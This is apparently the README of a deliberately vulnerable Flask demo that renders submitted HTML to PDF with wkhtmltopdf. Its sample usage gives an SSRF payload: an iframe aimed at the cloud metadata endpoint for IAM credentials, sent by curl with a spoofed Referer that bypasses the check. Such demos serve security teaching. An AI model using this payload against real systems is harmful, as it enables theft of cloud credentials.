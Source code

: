 # renderHTML.py

## Summary
This is a deliberately vulnerable flask application that accepts HTML, renders it using wkhtmltopdf, and returns the PDF file.
It also checks the referer header as a token defense against abuse.  Bypassing this defense makes a better demo.

## Requirements
Python Libraries (pip install -r requirements.txt)
* flask
* pdfkit

wkhtmltopdf (must be installed at the OS level - https://wkhtmltopdf.org/downloads.html)

## Sample Usage
_Modify the string in the referer check to be the domain where you're hosting it, or just remove the check depending on your needs_

Create a test file containing the HTML:
``{"content":"<HTML><BODY>Metadata output:</BR><IFRAME src=\" http://169.254.169.254/latest/meta-data/iam/security-credentials/\" width=1000 height=1000></IFRAME></BODY></HTML>"}
``

Now use curl to send it
``curl -H "Referer: api.uuw.app" --json @testfile.json http://render.uuw.app/render``
